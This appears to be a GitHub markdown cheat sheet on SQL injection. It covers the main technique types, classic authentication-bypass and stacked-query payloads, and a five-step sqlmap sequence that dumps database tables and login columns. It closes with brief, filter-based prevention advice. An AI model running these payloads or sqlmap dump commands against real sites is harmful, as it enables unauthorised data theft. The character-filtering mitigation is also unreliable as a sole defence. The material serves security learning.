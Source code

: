 # SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to Application (Server).

## SQL Injection Technique

1. **In-band SQLi**(Classic SQLi)
-	***Error-based SQLi:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-	***Union-based SQLi:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-	***Boolean:*** use Boolean condition(s) to verify whether certain conditions are true or false.

-	***Out-of-band:*** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-	***Time delay:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

## Standard SQL Injection Testing

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```
- More Information: https://www.owasp.org/index.php/SQL_Injection
![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)
<table>
<tr>
    <td> ![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png) </td>
    <td> ![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png) </td>
</tr>
</table>

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find Current Database name
  `sqlmap –u http://www.nayan.com/item_id=3 --level=5 --risk=3 --current-db --batch`

**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 --dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename --tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info --columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login --dump`

## Prevent SQL injection
Filter out character like ' " - / \ ; NULL, etc. in all strings from:
- Input from users
- Parameters from URL
- Values from cookie

Mitigation: https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

